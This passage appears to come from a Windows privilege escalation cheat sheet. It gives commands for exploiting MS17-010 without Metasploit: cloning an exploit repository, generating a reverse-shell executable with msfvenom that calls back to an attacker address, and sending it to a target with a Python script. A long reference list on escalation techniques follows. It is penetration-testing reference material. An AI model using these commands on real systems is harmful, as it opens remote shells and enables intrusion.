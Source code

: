 If you can't use Metasploit and only want a reverse shell.

git clone https://github.com/helviojunior/MS17-010

\# generate a simple reverse shell to use
msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o revshell.exe
python2 send\_and\_execute.py 10.0.0.1 revshell.exe

References

	• Windows Internals Book - 02/07/2017

	• icacls - Docs Microsoft

	• Privilege Escalation Windows - Philip Linghammar

	• Windows elevation of privileges - Guifre Ruiz

	• The Open Source Windows Privilege Escalation Cheat Sheet by amAK.xyz and @xxByte

	• Basic Linux Privilege Escalation

	• Windows Privilege Escalation Fundamentals

	• TOP–10 ways to boost your privileges in Windows systems - hackmag

	• The SYSTEM Challenge

	• Windows Privilege Escalation Guide - absolomb's security blog

	• Chapter 4 - Windows Post-Exploitation - 2 Nov 2017 - dostoevskylabs

	• Remediation for Microsoft Windows Unquoted Service Path Enumeration Vulnerability - September 18th, 2016 - Robert Russell

	• Pentestlab.blog - WPE-01 - Stored Credentials

	• Pentestlab.blog - WPE-02 - Windows Kernel

	• Pentestlab.blog - WPE-03 - DLL Injection

	• Pentestlab.blog - WPE-04 - Weak Service Permissions

	• Pentestlab.blog - WPE-05 - DLL Hijacking

	• Pentestlab.blog - WPE-06 - Hot Potato

	• Pentestlab.blog - WPE-07 - Group Policy Preferences

	• Pentestlab.blog - WPE-08 - Unquoted Service Path

	• Pentestlab.blog - WPE-09 - Always Install Elevated

	• Pentestlab.blog - WPE-10 - Token Manipulation

	• Pentestlab.blog - WPE-11 - Secondary Logon Handle

	• Pentestlab.blog - WPE-12 - Insecure Registry Permissions

	• Pentestlab.blog - WPE-13 - Intel SYSRET

	• Alternative methods of becoming SYSTEM - 20th November 2017 - Adam Chester @xpn

	• Living Off The Land Binaries and Scripts \(and now also Libraries\)
